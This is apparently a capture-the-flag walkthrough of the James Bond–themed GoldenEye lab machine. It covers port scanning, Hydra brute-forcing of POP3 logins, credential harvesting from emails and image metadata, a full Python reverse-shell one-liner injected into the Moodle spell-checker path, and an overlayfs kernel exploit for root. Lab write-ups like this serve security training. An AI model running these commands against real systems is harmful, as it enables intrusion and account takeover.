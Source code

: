 # Golden Eye

This machine tells an intriguing story from the world of James Bond. As we enumerate and explore its contents, the narrative becomes increasingly clear.

Using rustscan to enumerate open ports reveals four services: SMTP on port 25, an HTTP server on port 80, and POP3 running on ports 55006 and 55007. 

`rustscan -a 10.10.141.140 -- -sC  -sV` 

```php
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.141.140:25
Open 10.10.141.140:80
Open 10.10.141.140:55006
Open 10.10.141.140:55007
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-09 11:46 IST
PORT      STATE SERVICE  REASON         VERSION
25/tcp    open  smtp     syn-ack ttl 60 Postfix smtpd
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http     syn-ack ttl 60 Apache httpd 2.4.7 ((Ubuntu))
|_http-title: GoldenEye Primary Admin Server
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
55006/tcp open  ssl/pop3 syn-ack ttl 60 Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) UIDL USER TOP PIPELINING RESP-CODES AUTH-RESP-CODE CAPA
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
55007/tcp open  pop3     syn-ack ttl 60 Dovecot pop3d
|_pop3-capabilities: PIPELINING STLS TOP USER SASL(PLAIN) UIDL RESP-CODES AUTH-RESP-CODE CAPA
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
```

The webpage displays a *TOP SECRET*  landing page that leads to a login screen. 

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image.png)

Examining the source code reveals a script containing two users—Boris and Natalya—along with an encoded password.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%201.png)

We decode the password using cyberchef.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%202.png)

We use the username Boris and the decoded password to login to the page `/sev-home/` .

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%203.png)

The page source code mentions the same two users.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/80396a54-16c9-4bc1-aeef-b4f92b9fd433.png)

Examining the other services, we discover that POP3 can be used to read emails after authentication with valid credentials. Here are the common commands used.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%204.png)

We use `telnet` to connect and attempt authentication, but it fails. While the username is correct, we still need to find the password.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/053e660b-5c70-4099-9bc7-4138837b1fc0.png)

We use Hydra to brute-force the password. When the rockyou.txt wordlist proved too time-consuming, we opted for a smaller wordlist based on another walkthrough.

`hydra -l boris -P /usr/share/set/src/fasttrack/wordlist.txt -s 55007 -f -V 10.10.141.140 pop3 -t 64`

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%205.png)

Using the password we authenticate and start reading the emails.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/2a9485df-4076-4780-aae3-d6ce0abd556b.png)

First one is from root.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%206.png)

Second one from Natalya saying she can break his code.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%207.png)

Third one is rather interesting. It’s from a syndicate. Well well we have a mole among us. 

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%208.png)

Next we find Natalya’s password.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%209.png)

The first email is from root, instructing her to stop breaking Boris's code and warning her about the Janus syndicate—the same group Boris has been communicating with. 

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2010.png)

Second one is credentials for a new user `xenia` . Xenia is the new student sent by the syndicate who was verified by Boris.  The story is getting more clear.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2011.png)

To access the new URL we need to add it to `/etc/hosts` file.

`sudo nano /etc/hosts` 

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2012.png)

We login to the URL provided using Xenia’s credentials and access the messages.

My profile → Messages

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2013.png)

The message reveals another user `doak` . Using hydra we find his password too.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2014.png)

Logging in and reading the email, he has left a mail for James Bond containing his credentials for the training site.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2015.png)

Logging in using the credentials and access his private files. It contains a secret text file saying he has the admin credentials.

My Profile → My Private Files

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2016.png)

Visiting the given page displays an image. After downloading it, we use `exiftool` to inspect it for any hidden metadata or embedded information.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2017.png)

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2018.png)

There is some `base64` encoded message in image description. Decoding it gives us the admin credentials.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2019.png)

The room hints us about a vulnerability with aspell spell checker we can exploit. We search for aspell in the search box in left section.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/e13eeb3a-544a-4a61-837f-7d71bcf3148e.png)

Here there is a “Path to aspell” with commands. We rewrite it with a reverse shell command that uses python and save it.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.17.47",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Next we change the Spell engine to PSpellShell in text editor plugin settings and save it. 

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2020.png)

Next to create a new page we follow the below path.

My profile → Blogs → Add a new entry

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2021.png)

Setup  a netcat listener on the specified port and use the spell checker in the editor, which in turn will execute the command we injected in path to aspell.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2022.png)

We capture a reverse shell to the machine.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2023.png)

Now we download the `linuxprivchecker`  from the URL provided and send it to the victim machine by setting up a python server in the folder containing the file.

`https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123`

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2024.png)

Use `wget` to download the file into the victim machine’s `/tmp` folder. Running it and looking at the installed file we can see C compilation tool `cc` in the list.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2025.png)

The room hints us that the machine with a kernel version of 3.13.0-32-generic is vulnerable to `overlayfs` exploit and provide us with the URL to the exploit. The exploit provided uses `gcc` , we need to change it to `cc` in the code and send it to the victim machine like we did before. Compile it using `cc` and executing it gets us the root access.

`https://www.exploit-db.com/exploits/37292`

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2026.png)

The flag is hidden in root folder.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2027.png)